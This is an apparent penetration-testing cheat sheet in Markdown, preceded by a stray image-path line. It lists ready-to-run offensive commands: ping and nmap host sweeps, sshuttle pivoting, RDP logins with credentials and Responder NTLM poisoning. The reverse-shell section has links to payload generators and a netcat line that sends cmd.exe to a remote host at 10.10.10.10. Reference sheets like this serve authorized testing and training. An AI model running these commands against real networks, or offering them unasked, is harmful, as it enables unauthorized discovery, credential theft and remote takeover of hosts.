 # Windows (cmd)

-   for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.

# Windows (PowerShell)

-   $ping = New-Object System.Net.Networkinformation.Ping ; 1..254 | % { $ping.send("10.9.15.$\_", 1) | where status -ne 'TimedOut' | select Address | fl \* }

# Nmap

-   nmap -sP 192.168.0.1-254

## Pivoting

-   sshuttle -r user@10.10.10.10 10.1.1.0/24

## Remote Desktop

-   rdesktop -u user -p password 10.10.10.10 -g 85% -r disk:share=/root/
-   xfreerdp /d:xyz.local /u:username /p:password /v:10.10.10.10 /cert-ignore

## Responder

-   responder -I tun0 -wrF
-   https://chryzsh.gitbooks.io/darthsidious/content/execution/responder-with-ntlm-relay-and-empire.html
-   https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

## Reverse Shells

Linux

-   http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
-   https://awansec.com/reverse-shell.html
-   https://www.revshells.com/

Windows

-   https://github.com/Dhayalanb/windows-php-reverse-shell
-   nc 10.10.10.10 4444 –e cmd.exe
-   https://www.revshells.com/

## Shell Upgrading

Source: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ & https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell
